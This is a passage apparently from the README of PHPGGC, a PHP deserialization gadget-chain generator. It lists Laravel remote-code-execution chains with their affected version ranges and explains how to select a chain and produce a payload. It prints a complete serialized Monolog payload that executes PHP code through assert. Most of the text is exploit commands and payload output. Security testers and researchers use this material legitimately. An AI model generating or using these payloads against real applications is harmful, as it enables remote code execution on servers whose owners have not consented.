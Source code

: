 Filter gadget chains:

```
$ ./phpggc -l laravel

Gadget Chains
-------------

NAME             VERSION            TYPE                   VECTOR        I    
Laravel/RCE1     5.4.27             RCE (Function call)    __destruct         
Laravel/RCE10    5.6.0 <= 9.1.8+    RCE (Function call)    __toString         
Laravel/RCE2     5.4.0 <= 8.6.9+    RCE (Function call)    __destruct         
Laravel/RCE3     5.5.0 <= 5.8.35    RCE (Function call)    __destruct    *    
Laravel/RCE4     5.4.0 <= 8.6.9+    RCE (Function call)    __destruct         
Laravel/RCE5     5.8.30             RCE (PHP code)         __destruct    *    
Laravel/RCE6     5.5.* <= 5.8.35    RCE (PHP code)         __destruct    *    
Laravel/RCE7     ? <= 8.16.1        RCE (Function call)    __destruct    *    
Laravel/RCE8     7.0.0 <= 8.6.9+    RCE (Function call)    __destruct    *    
Laravel/RCE9     5.4.0 <= 9.1.8+    RCE (Function call)    __destruct         
```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

For RCE gadgets, the executed command can have 3 formatting types depending on how the gadget works:
- RCE (Command): ./phpggc Symfony/RCE1 id
- RCE (PHP code): ./phpggc Symfony/RCE2 'phpinfo();'
- RCE (Function call): ./phpggc Symfony/RCE4 system id

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```
